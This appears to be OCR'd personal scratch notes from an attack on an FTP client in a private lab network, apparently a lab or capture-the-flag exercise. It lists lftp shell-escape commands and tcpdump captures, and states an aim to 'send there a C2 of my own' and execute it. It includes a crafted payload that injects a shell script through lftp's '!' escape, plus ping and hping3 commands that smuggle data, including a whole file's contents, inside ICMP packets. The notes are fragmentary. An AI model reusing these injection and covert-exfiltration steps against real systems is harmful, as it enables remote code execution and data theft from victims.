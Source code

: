 !command Run local shell commands !!!!!!!!!!!!!!!!!!!!!!!!!Q
!grep "search_term" myfile.txt
!zcat myfile.gz
!less myfile.txt
 !more myfile.txt
  !cat myfile.txt

lftp can create directories on the client side and file!!!!
!echo "Hello World" > myfile.txt
!ps aux
!df -h
!ls
!pwd
!cat myfile.txt



sudo tcpdump -i eth0 host 192.168.2.8
sudo python3 march_20_sim_LEV.py

sudo tcpdump -i eth0 host 192.168.3.1 -s 0 -w lstry.pcap


!echo $PWD > local-file.txt

wait for FTP: PORT 192,168,2,2,176,23
then send there a C2 of my own 
i also need to execute it somehow

PORT 192,168,2,2,179,197
PORT a1,a2,a3,a4,p1,p2

- Multiply `p1` by 256: `179 * 256 = 45824`.
- Add `p2` to the result: `45824 + 197 = 46021`.

sudo tcpdump -i any host 192.168.2.2 and portrange 1024-65535 and not port 22 and not host 10.10.2.46 -n -v -A

 modified_payload = b'!echo \'#!/bin/bash\nwhile true; do\n    ping -c 1 192.168.2.2\n    sleep 0.1\ndone\' > clock_update.sh'



### **1. Adding Custom Payload to Ping**
ping -c 5 -p 68656c6c6f 192.168.2.2
✅ This sends `hello` (`68656c6c6f` in hex) inside the ping request.

### **2. Sending a Larger Custom Message**
You can send larger payloads using the `-s` flag (packet size):
ping -c 5 -s 100 -p 41424344 192.168.2.2
✅ This sends a 100-byte ICMP packet, filling it with `ABCD` (`41424344` in hex).

### **4. Alternative: Custom ICMP Packet with `hping3`**
If you need **longer payloads**, use `hping3`:
hping3 -c 5 -1 -E myfile.txt 192.168.2.2
✅ This sends **the contents of `myfile.txt`** inside ICMP packets.
